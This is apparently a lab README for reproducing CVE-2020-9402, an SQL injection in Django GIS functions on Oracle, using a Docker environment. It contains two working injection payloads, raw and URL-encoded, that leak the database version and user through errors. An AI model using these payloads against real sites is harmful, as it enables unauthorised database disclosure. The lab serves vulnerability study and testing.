 # Django GIS functions and aggregates on Oracle  SQL Injection Vulnerability (CVE-2020-9402)

[中文版本(Chinese version)](README.zh-cn.md)

Django released a security update on March 4, 2020, which fixes a SQL injection vulnerability in the GIS functions and aggregates.

Reference link:

- https://www.djangoproject.com/weblog/2020/mar/04/security-releases/

The vulnerability requires the developer to use JSONField/HStoreField; moreover, the field name of the queryset can be controlled. Django's built-in application Django-Admin is affected, which gives us an easy way to reproduce the vulnerability.

## Start Vulnerability Application

Compile and start a vulnerable Django 3.0.3 by executing the following command:

```
Docker-compose build
Docker-compose up -d
```

After the environment is started, you can see the home page of Django at `http://your-ip:8000`.

## Vulnerability Reproduce

First, assess the website `http://your-ip:8000/vuln/`

Then add `20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v$instance)) from dual) is null  OR (1+1` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln/?q=20)%20%3D%201%20OR%20(select%20utl_inaddr.get_host_name((SELECT%20version%20FROM%20v%24instance))%20from%20dual)%20is%20null%20%20OR%20(1%2B1
You can see that the bracket has been injected successfully, and the SQL statement reports an error:

![](1.png)


Or you can assess the other website `http://your-ip:8000/vuln2/`, and add `0.05))) FROM "VULN_COLLECTION2"  where  (select utl_inaddr.get_host_name((SELECT user FROM DUAL)) from dual) is not null  --` to the GET para,eter, where q is the quertset:

http://your-ip:8000/vuln2/?q=0.05)))%20FROM%20%22VULN_COLLECTION2%22%20%20where%20%20(select%20utl_inaddr.get_host_name((SELECT%20user%20FROM%20DUAL))%20from%20dual)%20is%20not%20null%20%20--

You can also see that the SQL statement reports an error:

![](2.png)

